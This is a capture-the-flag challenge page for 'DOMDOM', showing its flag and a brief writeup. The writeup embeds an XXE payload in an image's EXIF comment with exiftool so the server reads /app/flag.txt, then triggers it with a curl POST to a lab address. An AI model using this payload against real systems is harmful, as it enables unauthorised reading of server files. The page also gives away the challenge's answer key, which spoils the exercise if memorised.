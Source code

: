 ## DOMDOM
I love face-book and I love to share my photos with my friends.

### Description

### Difficulty
6./10

### Flag
PCTF{Y0u_D00m3D_U5_Man_So_SAD}

### Hints


### Author
Kiran Ghimire (sau)

### Tester

### Writeup
1. `exiftool -Comment="<?xml version='1.0'?><\!DOCTYPE root [<\!ENTITY test SYSTEM 'file:///app/flag.txt'>]><root>&test;</root>" test.png`
2. Upload the image file
3. `curl 'http://172.17.0.2:9090/check' -X POST -d 'url=http://172.17.0.2:9090/meta?image=imagename.png<random_num>'`
